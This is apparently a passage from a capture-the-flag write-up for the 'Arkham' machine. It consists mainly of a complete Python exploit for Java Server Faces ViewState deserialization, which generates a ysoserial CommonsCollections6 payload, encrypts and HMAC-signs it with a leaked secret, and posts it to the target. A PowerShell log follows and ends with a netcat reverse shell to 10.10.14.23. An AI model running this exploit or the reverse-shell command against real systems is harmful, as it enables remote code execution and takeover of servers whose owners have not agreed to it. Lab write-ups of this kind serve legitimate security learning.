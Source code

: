 ### Java Server Faces object deserialization exploit

I'll use `ysoserial` to generate the payload, then write some python to calculate the hmac based on the key provided in the `web.xml.bak` file.

```python
#!/usr/bin/python

from base64 import b64encode
from hashlib import sha1
from pwn import *
from requests import post, get

import hmac
import os
import pyDes
import sys

def main():
    if len(sys.argv) < 4:
        print("Java JSF exploit")
        print("Usage: {} <url> <cmd> <secret>\n".format(sys.argv[0]))
        sys.exit()

    url = sys.argv[1]
    cmd = sys.argv[2]
    secret = sys.argv[3]

    log.info("Payload provided: {}".format(cmd))
    cmd = "java -jar ./ysoserial.jar CommonsCollections6 \"{}\" > payload.bin".format(cmd)
    log.info("Generating the payload with: {}".format(cmd))
    os.system(cmd)

    log.info("Payload was written to payload.bin, reading it into variable...")
    with open("payload.bin", "rb") as f:
        payload = f.read()

    log.info("Length of payload: {} bytes".format(len(payload)))

    key = bytes(secret).decode("base64")
    des = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    enc = des.encrypt(payload)
    b = hmac.new(key, bytes(enc), sha1).digest()
    payload = enc + b

    log.info("Sending encoded payload: {}".format(b64encode(payload)))
    data = {"javax.faces.ViewState": b64encode(payload)}
    r = post(url, data=data)
    log.success("Done!")

if __name__ == "__main__":
    main()
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666